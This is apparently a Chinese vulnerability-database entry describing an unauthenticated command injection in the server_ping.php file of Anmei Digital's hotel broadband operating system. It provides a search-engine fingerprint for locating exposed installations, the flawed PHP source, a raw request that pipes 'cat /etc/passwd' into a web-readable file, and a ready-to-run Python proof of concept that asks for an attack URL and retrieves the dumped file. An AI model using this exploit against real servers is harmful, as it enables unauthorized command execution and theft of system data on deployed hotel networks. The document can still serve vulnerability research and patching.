


# 安美数字 酒店宽带运营系统 server_ping.php 远程命令执行漏洞

# 漏洞描述

安美数字 酒店宽带运营系统 server_ping.php 存在远程命令执行漏洞，漏洞文件中ip参数未过滤造成命令执行

## 漏洞影响

```
安美数字 酒店宽带运营系统
```

## 网络测绘

```
"酒店宽带运营"
```

## 漏洞复现

登录页面如下


存在漏洞的文件为 **server_ping.php**


```php
<?
if (!isset($ip) || $ip == "" || !isset($id) || $id == "") exit;

$cmd = "ping -c 2 -s 65 $ip";
$fp = popen($cmd, "r");
$getString = "";
if ($fp) {
	while (($line = fgets($fp, 512))) {
		$getString .= trim($line);
	}
	pclose($fp);
	
}

if (strstr($getString, "2 received, 0%")) {
	echo "<html><body><script language=\"javascript\">\n";
	echo "parent.doTestResult('$id', 'ok');\n";
	echo "</script></body></html>\n";
} else {
	echo "<html><body><script language=\"javascript\">\n";
	echo "parent.doTestResult('$id', 'no');\n";
	echo "</script></body></html>\n";
}
?>
```


漏洞位置为


```plain
$cmd = "ping -c 2 -s 65 $ip";
$fp = popen($cmd, "r");
```


GET传入 **$ip参数** 后直接命令执行，并且文件无权限要求


请求包为


```plain
GET /manager/radius/server_ping.php?ip=127.0.0.1|cat%20/etc/passwd>../../test.txt&id=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
```




## 漏洞POC


```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import base64
import requests
import random
import re
import json
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 安美数字 酒店宽带运营系统 server_ping.php 远程命令执行漏洞            \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/manager/radius/server_ping.php?ip=127.0.0.1|cat%20/etc/passwd>../../test.txt&id=1"
    headers = {
                "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
                "Content-Type": "application/x-www-form-urlencoded",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=10)
        print("\033[36m[o] 正在执行 cat /etc/passwd>../../test.txt \033[0m".format(target_url))
        if "parent" in response.text and response.status_code == 200:
            vuln_url = target_url + "/test.txt"
            headers = {
                "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
                "Content-Type": "application/x-www-form-urlencoded",
            }
            response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=10)
            if "root:" in response.text:
                print("\033[36m[o] 成功执行 cat /etc/passwd, 响应为:\n{} \033[0m".format(response.text))
            else:
                print("\033[31m[x] 请求失败:{} \033[0m")
        else:
            print("\033[31m[x] 请求失败 \033[0m")
    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)

#
if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    POC_1(target_url)
```


